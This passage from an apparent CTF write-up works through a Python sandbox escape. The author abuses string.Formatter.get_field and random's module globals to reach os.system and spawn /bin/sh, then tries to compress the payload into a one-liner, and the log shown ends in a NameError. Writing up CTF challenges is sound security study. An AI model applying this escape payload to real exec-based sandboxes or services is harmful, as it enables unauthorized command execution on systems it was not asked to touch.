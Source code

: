 As we can see, `get_field` converts the `"0"` field name to the evaluated expression: `random.Random.__init__.__globals__['_os'].system`. So, let's modify our payload to pop a shell:

```python
import random
import string
import sys
class Baz(string.Formatter):
    def get_field(self, field_name, args, kwargs):
        obj, first = super().get_field(field_name, args, kwargs)
        obj('/bin/sh')
        return obj, first
Baz().format("{0.Random.__init__.__globals__[_os].system}", random)
```

![pop-a-shell.png](resources/pop-a-shell.png)

And success! We have a shell locally in our interpreter!

### Converting the exploit to a one liner

The final thing is to convert our payload to a one liner. This is because our payload is read via `input()` and fed to `exec()`. We can use multiple statements, e.g. chained via `;`, but the payload has to be a single line.

```log
nikos@ctf-box:~$ python main.py
Well, well well. Let's see just how poisonous you are..
> class Baz(string.Formatter): pass; get_field = (lambda self, field_name, args, kwargs: super().get_field(field_name, args, kwargs)[0](('/bin/sh')), ''); Baz().format("{0.Random.__init__.__globals__[_os].system}", random)
Traceback (most recent call last):
  File "main.py", line 171, in <module>
    print(exec_poisonous(inp))
  File "main.py", line 45, in exec_poisonous
    exec(byte_code, policy_globals, None)
  File "<string>", line 1, in <module>
  File "<string>", line 1, in Baz
NameError: name 'Baz' is not defined
```

